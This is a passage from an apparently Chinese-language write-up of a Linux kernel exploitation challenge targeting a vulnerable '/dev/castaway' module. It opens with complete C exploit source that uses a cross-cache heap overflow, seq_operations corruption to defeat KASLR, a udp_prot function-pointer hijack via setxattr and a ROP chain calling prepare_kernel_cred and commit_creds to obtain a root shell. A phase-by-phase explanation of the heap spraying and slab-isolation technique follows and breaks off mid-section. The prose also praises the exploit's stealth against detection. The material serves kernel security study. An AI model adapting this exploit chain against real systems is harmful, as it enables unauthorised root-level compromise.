#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81400cb0
#define PREPARE_KERNEL_CRED 0xffffffff8106a880
#define COMMIT_CREDS 0xffffffff8106a6e0
#define ADD_RSP_0X198_RET 0xffffffff810b9705
#define POP_RSP_RET 0xffffffff810445d4
#define POP_RDI_RET 0xffffffff8120395c
#define POP_RCX_POP_RBX_POP_R12_POP_RBP_RET 0xffffffff8137cfd3
#define MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET 0xffffffff813965ea

/* Configuration constants */
#define CHUNK_SIZE 512
#define ISO_SLAB_LIMIT 8
#define INITIAL_PAGE_SPRAY 1000
#define FINAL_PAGE_SPRAY 30
#define MAX_SEQ_FDS 0x1000
#define SEQUENCE_OPERATION_SIZE 0x20

/* Global variables */
int dev_fd;                // File descriptor for /dev/castaway
int seq_fd[MAX_SEQ_FDS];   // File descriptors for /proc/self/stat
size_t seq_data[4];        // Buffer for reading seq_operations
char evil_data[0x1000];    // Overflow buffer
int evil_seq_index = -1;   // Index of corrupted seq_fd
size_t pop_rsp_ret;        // Gadget address

/* Kernel addresses */
size_t evil_addr = 0;
size_t castaway_module = 0;
size_t castaway_arr = 0;
size_t castaway_arr_1 = 0;
size_t *rop_chain = NULL;

/* Networking */
static int sock_fd = -1;
static struct sockaddr_in serv_addr;

/* Structures */
struct user_req {
    int64_t idx;
    uint64_t size;
    char *buf;
};

struct full_page {
    bool in_use;                // Whether this page is allocated
    int idx[ISO_SLAB_LIMIT];   // Chunk indices for this page
};

struct full_page isolation_pages[FINAL_PAGE_SPRAY] = {0};

/* Function prototypes */
int64_t alloc_chunk(void);
int64_t edit_chunk(int64_t idx, uint64_t size, char *buf);
void alloc_vuln_page(struct full_page *pages, int page_idx);
void edit_vuln_page(struct full_page *pages, int page_idx, uint8_t *buf, size_t sz);
void alloc_seq_file(int i);
void restore_udp_prot(void);
void hex_dump(const char *desc, void *addr, int len);
void prepare_rop_chain(void);
void trigger_rop_chain(void);
void cleanup(void);

/* Device operations */
int64_t alloc_chunk(void) {
    return ioctl(dev_fd, 0xCAFEBABE, 0);
}

int64_t edit_chunk(int64_t idx, uint64_t size, char *buf) {
    struct user_req req = {.idx = idx, .size = size, .buf = buf};
    return ioctl(dev_fd, 0xF00DBABE, (unsigned long)&req);
}

/* Page management */
void alloc_vuln_page(struct full_page *pages, int page_idx) {
    assert(page_idx < FINAL_PAGE_SPRAY);
    assert(!pages[page_idx].in_use);

    for (int i = 0; i < ISO_SLAB_LIMIT; i++) {
        long result = alloc_chunk();
        if (result < 0) {
            log.error("alloc_vuln_page: allocation failed at page %d, chunk %d", page_idx, i);
            exit(-1);
        }
        pages[page_idx].idx[i] = result;
    }
    pages[page_idx].in_use = true;
    // log.debug("Phase 3-1: Allocated page %d with %d chunks", page_idx, ISO_SLAB_LIMIT);
}

void edit_vuln_page(struct full_page *pages, int page_idx, uint8_t *buf, size_t sz) {
    assert(page_idx < FINAL_PAGE_SPRAY);
    assert(pages[page_idx].in_use);

    for (int i = 0; i < ISO_SLAB_LIMIT; i++) {
        long result = edit_chunk(pages[page_idx].idx[i], sz, buf);
        if (result < 0) {
            log.error("edit_vuln_page: edit failed at page %d, chunk %d", page_idx, i);
            exit(-1);
        }
    }
    // log.debug("Phase 3-2: Edited page %d with %zu bytes", page_idx, sz);
}

/* seq_operations manipulation */
void alloc_seq_file(int i) {
    seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    if (seq_fd[i] < 0) {
        log.error("alloc_seq_file: failed to open /proc/self/stat");
        exit(-1);
    }
    read(seq_fd[i], (char *)seq_data, 0x8);
}

void restore_udp_prot(void) {
    /* Phase 6: Restore and root shell */
    puts("");
    log.info("==============================================");
    log.info("Phase 6: Restore and root shell");
    log.info("==============================================");
    log.info("Phase 6: Restoring udp_prot function pointers");
    rop_chain[0] = kernel_offset + UDP_SENDMSG;
    rop_chain[1] = kernel_offset + UDP_RECVMSG;
    edit_chunk(0, 0x10, (char *)rop_chain);
    log.success("Phase 6: Function pointers restored");

    get_root_shell();
}

/* ROP chain setup */
void prepare_rop_chain(void) {
    log.info("Phase 4-3: Building ROP chain for privilege escalation");

    int i = 0;
    rop_chain = (size_t *)evil_data;

    rop_chain[i++] = kernel_offset + POP_RDI_RET;
    rop_chain[i++] = 0;                                      // arg0 for prepare_kernel_cred
    rop_chain[i++] = kernel_offset + PREPARE_KERNEL_CRED;   // prepare_kernel_cred(0)
    rop_chain[i++] = kernel_offset + POP_RCX_POP_RBX_POP_R12_POP_RBP_RET;
    rop_chain[i++] = 0;  // rcx
    rop_chain[i++] = 0;  // rbx
    rop_chain[i++] = 0;  // r12
    rop_chain[i++] = 0;  // rbp
    rop_chain[i++] = kernel_offset + MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET;  // move cred to rdi
    rop_chain[i++] = kernel_offset + COMMIT_CREDS;         // commit_creds(cred)
    rop_chain[i++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
    rop_chain[i++] = *(size_t *)"BinRacer";  // dummy
    rop_chain[i++] = *(size_t *)"BinRacer";  // dummy
    rop_chain[i++] = (size_t)restore_udp_prot;  // return address
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp + 8;
    rop_chain[i++] = user_ss;

    log.success("Phase 4-3: ROP chain prepared with %d gadgets", i);
}

/* Trigger ROP chain via sendto */
void trigger_rop_chain(void) {
    log.info("Phase 5: Triggering ROP chain via udp_prot hijack");

    sock_fd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    if (sock_fd < 0) {
        log.error("trigger_rop_chain: Failed to create socket");
        exit(-1);
    }

    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(8080);
    serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1");

    pop_rsp_ret = kernel_offset + POP_RSP_RET;

    log.info("Phase 5: Building pt_regs and calling sendto()");

    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   pop_rsp_ret;"
        "mov r13,   castaway_arr_1;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0;"
        "mov r9,    0x10;"
        "lea r8,    serv_addr;"
        "mov rax,   0x2c;"  // sendto syscall
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   0;"
        "mov rsi,   0;"
        "mov rdi,   sock_fd;"
        "syscall"
    );
}

/* Cleanup resources */
void cleanup(void) {
    for (int i = 0; i < MAX_SEQ_FDS; i++) {
        if (seq_fd[i] > 0) {
            close(seq_fd[i]);
        }
    }
    if (sock_fd > 0) {
        close(sock_fd);
    }
    if (dev_fd > 0) {
        close(dev_fd);
    }
}

/* Main exploit function */
int main(int argc, char **argv) {
    /* Phase 0: Prepare environment */
    log.info("==============================================");
    log.info("Phase 0: Prepare environment");
    log.info("==============================================");
    bind_core(0);
    save_status();

    /* Phase 1: Initialization and device setup */
    puts("");
    log.info("==============================================");
    log.info("Phase 1: Device initialization");
    log.info("==============================================");

    /* Phase 1-1: Open vulnerable device */
    log.info("Phase 1-1: Opening /dev/castaway device");
    dev_fd = open("/dev/castaway", O_RDWR);
    if (dev_fd < 0) {
        log.error("Phase 1-1: Failed to open /dev/castaway device");
        exit(-1);
    }
    log.success("Phase 1-1: Opened /dev/castaway device (fd: %d)", dev_fd);

    /* Phase 1-2: Initialize page spraying system */
    log.info("Phase 1-2: Initializing page spray infrastructure");
    prepare_pgv_system();

    /* Phase 2: Memory spray and slab isolation */
    puts("");
    log.info("==============================================");
    log.info("Phase 2: Memory preparation and slab isolation");
    log.info("==============================================");

    /* Phase 2-1: Spray order-0 pages via socket buffers */
    log.info("Phase 2-1: Spraying %d order-0 pages via socket buffers", INITIAL_PAGE_SPRAY);
    for (int i = 0; i < INITIAL_PAGE_SPRAY; i++) {
        if (alloc_page(i, 0x1000, 1) < 0) {
            log.error("Phase 2-1: Failed to allocate socket page at index %d", i);
            exit(-1);
        }
    }
    log.success("Phase 2-1: Initial page spray completed");

    /* Phase 2-2: Create memory holes for slab isolation */
    log.info("Phase 2-2: Creating memory holes for slab isolation");
    for (int i = 1; i < INITIAL_PAGE_SPRAY; i += 2) {
        free_page(i);
    }
    log.success("Phase 2-2: Memory holes created");

    /* Phase 2-3: Allocate seq_operations for info leak */
    log.info("Phase 2-3: Allocating seq_operations for info leak");
    for (int i = 0; i < 0x100; i++) {
        alloc_seq_file(i);
    }
    log.success("Phase 2-3: Allocated 0x100 seq_operations");

    /* Phase 2-4: Free remaining pages to isolate target slab */
    log.info("Phase 2-4: Freeing remaining pages to isolate target slab");
    for (int i = 0; i < INITIAL_PAGE_SPRAY; i += 2) {
        free_page(i);
    }
    log.success("Phase 2-4: Target slab isolated");

    /* Phase 3: Cross-cache overflow and info leak */
    puts("");
    log.info("==============================================");
    log.info("Phase 3: Cross-cache overflow and info leak");
    log.info("==============================================");

    /* Phase 3-1: Execute cross-cache overflow */
    log.info("Phase 3-1: Executing cross-cache overflow on %d pages", FINAL_PAGE_SPRAY);
    for (int i = 0; i < FINAL_PAGE_SPRAY; i++) {
        alloc_vuln_page(isolation_pages, i);
    }
    log.success("Phase 3-1: Cross-cache overflow completed");

    /* Phase 3-2: Prepare overflow data to corrupt seq_operations */
    log.info("Phase 3-2: Preparing overflow data to corrupt seq_operations");
    memset(evil_data, 0, CHUNK_SIZE);
    evil_addr = 0xfffffe0000000014 - 0x8;  // Target address minus 8 bytes
    memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);

    for (int i = 0; i < 1; i++) {
        edit_vuln_page(isolation_pages, i, evil_data, CHUNK_SIZE);
    }
    log.success("Phase 3-2: Prepared overflow data");

    /* Phase 3-3: Find corrupted seq_file to leak kernel address */
    log.info("Phase 3-3: Searching for corrupted seq_file to leak kernel address");
    for (int i = 0; i < 0x100; i++) {
        memset(seq_data, 0, 0x20);
        read(seq_fd[i], (char *)seq_data, 0x20);

        if (seq_data[0] > kernel_base && ((seq_data[0] & 0xfff) == (__ENTRY_TEXT_END & 0xfff))) {
            kernel_offset = seq_data[0] - __ENTRY_TEXT_END;
            kernel_base += kernel_offset;
            evil_seq_index = i;

            hex_dump("Phase 3-3: Leaked cpu_entry_area mapping:", (char *)seq_data, 0x20);
            log.success("Phase 3-3: Found victim seq_fd[%d]", evil_seq_index);
            log.success("Phase 3-3: Leaked __entry_text_end+31194: 0x%lx", seq_data[0]);
            log.success("Phase 3-3: Kernel base: 0x%lx", kernel_base);
            log.success("Phase 3-3: Kernel offset: 0x%lx", kernel_offset);
            break;
        }
    }

    if (evil_seq_index == -1) {
        log.error("Phase 3-3: Failed to leak kernel address. Try again!");
        cleanup();
        exit(-1);
    }

    /* Phase 3-4: Leak castaway_module address from modules list */
    log.info("Phase 3-4: Leaking castaway_module address from modules list");
    evil_addr = kernel_offset + MODULES - 0x8 - 0x20;
    memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
    edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);

    memset(seq_data, 0, 0x20);
    read(seq_fd[evil_seq_index], (char *)seq_data, 0x20);
    hex_dump("Phase 3-4: Leaked modules list:", (char *)seq_data, 0x20);
    castaway_module = seq_data[0];
    log.success("Phase 3-4: Leaked castaway_module: 0x%lx", castaway_module);

    /* Phase 3-5: Leak castaway_arr address from module structure */
    log.info("Phase 3-5: Leaking castaway_arr address from module structure");
    evil_addr = castaway_module + 0x2f8 - 0x8 - 0x20 - 0x20;
    memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
    edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);

    memset((char *)seq_data, 0, 0x20);
    read(seq_fd[evil_seq_index], (char *)seq_data, 0x20);
    hex_dump("Phase 3-5: Leaked module data:", (char *)seq_data, 0x20);
    castaway_arr = seq_data[0];
    log.success("Phase 3-5: Leaked castaway_arr: 0x%lx", castaway_arr);

    /* Phase 3-6: Leak castaway_arr[1] for rop chain */
    log.info("Phase 3-6: Leaking castaway_arr[1] for rop chain");
    evil_addr = castaway_arr - 0x8 - 0x20 - 0x20 - 0x20;
    memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
    edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);

    memset((char *)seq_data, 0, 0x20);
    read(seq_fd[evil_seq_index], (char *)seq_data, 0x20);
    hex_dump("Phase 3-6: Leaked castaway_arr[1]:", (char *)seq_data, 0x20);
    castaway_arr_1 = seq_data[1];
    log.success("Phase 3-6: Leaked castaway_arr[1]: 0x%lx", castaway_arr_1);

    /* Phase 4: Control flow hijack preparation */
    puts("");
    log.info("==============================================");
    log.info("Phase 4: Control flow hijack preparation");
    log.info("==============================================");

    /* Phase 4-1: Free castaway_arr and prepare udp_prot hijack */
    log.info("Phase 4-1: Freeing castaway_arr and preparing udp_prot hijack");
    evil_addr = castaway_arr;
    memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
    edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);

    close(seq_fd[evil_seq_index]);
    log.success("Phase 4-1: Freed castaway_arr");

    /* Phase 4-2: Set up fake udp_prot function pointers using setxattr */
    log.info("Phase 4-2: Setting up fake udp_prot function pointers using setxattr");
    rop_chain = (size_t *)evil_data;
    rop_chain[0] = kernel_offset + UDP_PROT + 0x68 - 0x6;  // udp_prot->sendmsg
    rop_chain[1] = castaway_arr_1 - 0x6;

    setxattr("/etc/passwd", "user.test", rop_chain, 0x1000, XATTR_CREATE);
    log.success("Phase 4-2: Set up fake udp_prot function pointers");

    /* Phase 4-3: Set up initial ROP chain for stack pivot */
    log.info("Phase 4-3: Setting up initial ROP chain for stack pivot");
    *(size_t *)evil_data = kernel_offset + ADD_RSP_0X198_RET;
    edit_chunk(0, 0x10, evil_data);

    /* Prepare full ROP chain */
    prepare_rop_chain();
    edit_chunk(1, CHUNK_SIZE, (char *)rop_chain);

    /* Phase 5: Trigger ROP chain */
    puts("");
    log.info("==============================================");
    log.info("Phase 5: Triggering ROP chain");
    log.info("==============================================");
    trigger_rop_chain();

    /* Cleanup (should not reach here if exploit succeeds) */
    cleanup();
    return 0;
}
```

### 4-1. 技术实现总体架构

#### 4-1-1. 多阶段渐进式设计

本技术实现展示了一个复杂的内核漏洞利用过程，通过精心设计的六个逻辑阶段，最终完成了从用户态到内核态的权限提升。整个过程体现了现代系统安全技术实现的技术深度与复杂性，每个阶段都建立在之前阶段的基础上，形成了完整的技术实现链条。这种分阶段的设计策略将复杂的技术实现过程分解为可管理的逻辑单元，既降低了实现的复杂度，又提高了调试和维护的便利性。

#### 4-1-2. 整体架构图示

本技术实现采用多阶段渐进式设计，各阶段之间通过精确的时序控制和数据传递实现协同工作。以下序列图展示了从用户空间发起操作到最终权限获取的完整技术流程：



**阶段间交互详解**：
序列图清晰地展示了六个阶段之间的时序关系和交互流程。环境准备阶段为整个技术实现奠定基础，通过核心绑定确保内存操作的确定性，通过设备初始化建立与内核的通信通道，通过内存管理子系统建立为后续内存操作提供基础设施。内存布局塑造阶段在环境准备的基础上，通过精确的内存分配和释放操作，在物理内存中创造确定性的布局模式。信息泄露阶段利用前两个阶段创造的内存布局条件，通过跨缓存溢出技术修改相邻内存区域的数据结构，然后通过正常的系统调用读取被篡改的数据，从而获取内核地址信息。控制流重定向阶段在获取内核地址信息的基础上，通过释放后重用技术创建类型混淆条件，然后篡改关键内核数据结构中的函数指针，为后续的代码执行创造条件。代码执行阶段通过触发被篡改的函数指针，将控制流重定向到精心布置的ROP链，执行权限提升操作后安全返回用户态。状态恢复阶段在完成主要目标后，恢复被修改的内核数据结构，清理分配的资源，确保系统稳定性。

**数据传递路径**：
各阶段之间通过特定的数据传递机制实现信息共享。环境准备阶段将核心绑定状态、设备文件描述符、内存管理管道等信息传递给内存布局塑造阶段。内存布局塑造阶段将创建的内存空洞位置、目标结构体地址、slab隔离状态等信息传递给信息泄露阶段。信息泄露阶段将获取的内核基址、模块地址、堆指针等信息传递给控制流重定向阶段。控制流重定向阶段将篡改的函数指针地址、ROP链位置、触发条件等信息传递给代码执行阶段。代码执行阶段将权限提升结果、返回状态等信息传递给状态恢复阶段。

**错误处理与回退机制**：
每个阶段都包含错误检测和回退机制，确保技术实现的可靠性。环境验证在每个阶段开始前验证前置条件是否满足。操作确认对关键内核操作进行结果确认，确保操作成功执行。状态检查定期检查系统状态，避免不可恢复的错误。资源清理在发生错误时清理已分配的资源，避免资源泄漏。安全退出提供安全的退出路径，确保系统稳定性不受影响。

**架构设计原则**：
技术实现采用模块化设计原则，每个阶段都是相对独立的模块，具有明确的输入输出接口。这种设计提高了代码的可维护性和可重用性，也便于调试和测试。采用渐进式推进策略，每个阶段都建立在之前阶段的基础上，逐步接近最终目标。这种策略降低了技术实现的复杂度，也提高了成功率。在架构设计中充分考虑了容错性，每个阶段都包含错误检测和处理机制，确保在部分操作失败时能够安全退出或尝试替代方案。技术实现过程中尽量减少对系统的影响，在完成目标后主动恢复被修改的内核数据结构，清理分配的资源，体现了对系统稳定性的考虑。

**技术实现特点总结**：

1. **系统性**：六个阶段形成完整的技术实现链条，每个阶段都有明确的目标和实现方法。
2. **精确性**：依赖于精确的内存布局控制和时序控制，对操作顺序和时机有严格要求。
3. **隐蔽性**：在完成主要目标后主动恢复系统状态，减少对系统的影响和检测风险。
4. **教育性**：完整展示了现代内核漏洞利用技术的各个方面，为系统安全研究提供了有价值的参考。

#### 4-1-3. 关键技术组件

技术实现涉及多个关键技术组件，每个组件在实现过程中扮演特定角色：

1. **内存管理子系统**：负责内存的分配、释放和布局控制，通过`prepare_pgv_system()`函数初始化，为后续的内存布局塑造提供基础设施。
2. **信息泄露引擎**：通过跨缓存溢出和指针读取技术获取内核地址信息，包括内核基址、模块地址和堆指针等关键信息，为后续控制流重定向提供基础。
3. **控制流重定向机制**：利用`udp_prot`结构体的函数指针和UAF条件实现控制流重定向，通过修改内核关键数据结构引导执行流程到预定位置。
4. **代码复用技术**：通过ROP（Return-Oriented Programming）技术重用内核代码片段，实现复杂的逻辑操作而不依赖代码注入，提高技术实现的隐蔽性和可靠性。
5. **状态恢复系统**：在技术实现完成后恢复系统状态，确保系统稳定性，包括恢复修改的内核数据结构和清理分配的资源。

#### 4-1-4. 依赖关系与约束条件

各阶段之间存在严格的依赖关系，前序阶段的输出是后续阶段的输入。主要约束条件包括：

1. **时间顺序约束**：阶段必须按特定顺序执行，前一阶段成功是后一阶段执行的前提。这种顺序性确保了技术实现的逻辑连贯性。
2. **资源约束**：需要足够的内存和文件描述符，内存喷射阶段消耗约4MB物理内存，文件描述符管理需要精确控制避免资源泄漏。
3. **权限约束**：需要访问特定设备文件的权限，如`/dev/castaway`设备的读写权限，以及执行`setxattr()`等系统调用的能力。
4. **环境约束**：依赖特定的内核版本和配置，包括SLUB分配器实现、KASLR机制、SMAP/SMEP保护等，技术实现需要适应不同的系统环境。

### 4-2. 环境初始化与准备阶段

#### 4-2-1. 执行环境准备

为确保技术实现的可靠性和可重复性，首先需要建立稳定的执行环境。这包括将当前进程绑定到特定的CPU核心，以防止进程迁移导致的内存操作不一致问题。在多处理器系统中，不同CPU核心可能有独立的内存缓存，进程迁移可能导致缓存一致性问题和不可预测的内存访问延迟。

**核心绑定函数**：

```c
bind_core(0);  // 将进程绑定到CPU 0
save_status();  // 保存用户态寄存器状态
```

**寄存器保存机制**：通过`save_status()`函数保存用户态寄存器状态，包括代码段选择子、栈指针、标志寄存器等，为后续从内核态安全返回用户态做准备。这个步骤确保了即使在控制流重定向到内核后，也能正确恢复用户态执行环境。

#### 4-2-2. 漏洞设备初始化

目标漏洞设备`/dev/castaway`是技术实现的关键入口点。该设备提供了两个关键操作：分配内存块和编辑内存块内容。设备初始化通过标准文件操作接口完成，为后续的内存操作建立通信通道。

**设备操作函数**：

```c
int64_t alloc_chunk(void) {
    return ioctl(dev_fd, 0xCAFEBABE, 0);
}

int64_t edit_chunk(int64_t idx, uint64_t size, char *buf) {
    struct user_req req = {.idx = idx, .size = size, .buf = buf};
    return ioctl(dev_fd, 0xF00DBABE, (unsigned long)&req);
}
```

**系统调用链分析**：`open`系统调用通过以下路径最终调用设备驱动中的`open`操作：

```
用户空间open() → 系统调用入口do_sys_open() → 虚拟文件系统vfs_open() → 字符设备层chrdev_open() → 设备驱动castaway_open()
```

这个调用链建立了用户空间与内核设备的通信桥梁，为后续的设备操作提供了基础。

#### 4-2-3. 内存管理子系统建立

内存管理子系统是后续内存布局操作的基础。该子系统通过`prepare_pgv_system()`函数初始化，创建进程间通信管道并启动子进程专门处理内存操作请求。这种设计实现了内存操作的隔离和并行处理，提高了技术实现的效率和可靠性。注意！该子系统代码来源于**arttnba3**。

**子系统架构**：

1. **父进程**：发送内存操作请求，负责技术实现的逻辑控制和状态管理。
2. **子进程**：在独立命名空间中执行实际内存操作，处理具体的系统调用和内存分配。
3. **通信管道**：双向管道用于请求和响应传输，确保父子进程间的同步和协调。

**关键函数实现**：

```c
void prepare_pgv_system(void) {
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);

    if (!fork()) {
        spray_cmd_handler();  // 子进程处理内存操作
    }
}
```

**系统调用链分析**：内存管理子系统涉及多个关键系统调用的协同工作：

```
pipe() → 创建进程间通信通道
fork() → 创建子进程处理内存操作
unshare() → 在子进程中创建独立命名空间
socket() → 创建套接字用于内存喷射
setsockopt() → 设置套接字选项分配内存页面
```

这些系统调用共同构建了一个完整的内存管理框架，为后续的内存布局塑造提供了基础设施。

### 4-3. 内存布局工程阶段

#### 4-3-1. 内存布局基本原理

现代Linux内核采用SLUB分配器管理小块内存，其核心特性包括缓存分层、CPU本地缓存、伙伴系统和地址随机化。技术实现需要克服这些机制，创造确定性的内存布局。理解这些底层原理对于设计有效的内存布局策略至关重要。

**内存布局塑造策略**：

1. 利用大量分配耗尽特定缓存，创造内存压力迫使分配器创建新的slab。
2. 通过间隔释放创造规律性空洞，为后续的目标结构体分配提供理想的插槽位置。
3. 在空洞中分配目标结构体，确保这些结构体与后续通过漏洞设备分配的对象在物理内存中相邻。
4. 释放干扰页面实现slab隔离，减少其他对象的干扰，提高技术实现的成功率。

#### 4-3-2. 顺序内存页分配

通过套接字缓冲区喷射大量order-0页面（4KB），使用`PACKET_TX_RING`机制可以高效分配大量连续物理内存。这种分配方式利用了网络协议栈的内存管理特性，可以快速分配大量连续物理页面。

```c
for (int i = 0; i < INITIAL_PAGE_SPRAY; i++) {
    alloc_page(i, 0x1000, 1);
}
```

**系统调用链**：

```
alloc_page() → write() → 管道写入请求 → 子进程read() → socket() → setsockopt(PACKET_TX_RING)
```

**关键函数调用链**：

```
create_socket_and_alloc_pages() → socket() → setsockopt(PACKET_VERSION) → setsockopt(PACKET_TX_RING)
```

**详细内核函数调用链**：



**内核侧完整函数调用链**：

1. **用户空间**：`setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req))`
2. **系统调用入口**：`__x64_sys_setsockopt()`
3. **套接字层处理**：`sock_setsockopt()`
4. **协议特定处理**：`packet_setsockopt()`（对于`SOL_PACKET`套接字选项）
5. **环形缓冲区设置**：`packet_set_ring()`
6. **页面向量分配**：`alloc_pg_vec()`
7. **单个页面块分配**：`alloc_one_pg_vec_page()`
8. **物理页面分配**：`__get_free_pages()`
9. **伙伴系统分配**：从伙伴系统分配连续物理页面
10. **返回用户空间**：分配成功后返回给用户空间

**各函数详细说明**：

1. **packet_setsockopt()**：
    - 功能：处理AF_PACKET套接字的选项设置
    - 参数：套接字结构、选项级别、选项名称、选项值
    - 处理：根据选项名称调用相应的处理函数

2. **packet_set_ring()**：
    - 功能：设置套接字的环形缓冲区
    - 参数：套接字结构、环形缓冲区请求结构
    - 关键操作：
        - 验证请求参数的合法性
        - 分配环形缓冲区描述结构
        - 调用`alloc_pg_vec()`分配物理页面

3. **alloc_pg_vec()**：
    - 功能：分配页面向量（一组连续的物理页面）
    - 参数：分配顺序、页面数量
    - 实现：循环调用`alloc_one_pg_vec_page()`分配每个页面块
    - 返回：页面描述结构数组

4. **alloc_one_pg_vec_page()**：
    - 功能：分配单个页面块
    - 参数：分配顺序、分配标志
    - 实现：调用`__get_free_pages()`从伙伴系统分配页面
    - 返回：页面描述结构

5. **\_\_get_free_pages()**：
    - 功能：从伙伴系统分配2^order个连续物理页面
    - 参数：分配标志、分配顺序
    - 实现：
        - 调用`alloc_pages()`分配页面
        - 将页面转换为虚拟地址
        - 返回页面虚拟地址
    - 分配器：使用伙伴系统分配器，确保物理连续性

**内存分配数学原理**：
设分配顺序为$$order$$，则分配的页面数量为$$2^{order}$$。对于order-0页面，$$order=0$$，分配1个页面（4KB）。通过大量分配order-0页面，可以在物理内存中创建连续的页面块，为后续的内存布局塑造提供基础。这种连续性的物理内存布局为跨缓存溢出创造了理想的条件。

#### 4-3-3. 规律性空洞创建

在连续分配大量页面后，通过间隔释放创建规律性空洞。释放策略是释放所有索引为奇数的页面，这种模式在物理内存中形成"棋盘"状布局，为后续分配提供了理想的插槽位置。

```c
for (int i = 1; i < INITIAL_PAGE_SPRAY; i += 2) {
    free_page(i);
}
```

**系统调用链**：

```
free_page() → write() → 管道写入释放请求 → 子进程read() → close() → sock_close()
```

**内存状态变化**：这种释放模式在物理内存中形成规律的"棋盘"状布局，已分配页面和空闲页面交替出现。这种布局为后续的目标结构体分配提供了理想的插槽位置，空闲页面成为目标结构体可能分配的位置。通过精确控制释放模式，可以创造可预测的内存布局，提高技术实现的成功率。

#### 4-3-4. 目标结构体预分配

分配256个目标结构体，这些结构体将填充之前创建的内存空洞。通过打开`/proc/self/stat`文件实现，每个打开操作在内核中分配一个特定大小的结构体。由于之前的内存布局，这些结构体有很大概率分配到释放的空洞位置，与后续通过漏洞设备分配的对象在物理内存中相邻。

```c
void alloc_seq_file(int i) {
    seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    read(seq_fd[i], (char *)seq_data, 0x8);
}
```

**proc文件系统打开流程**：

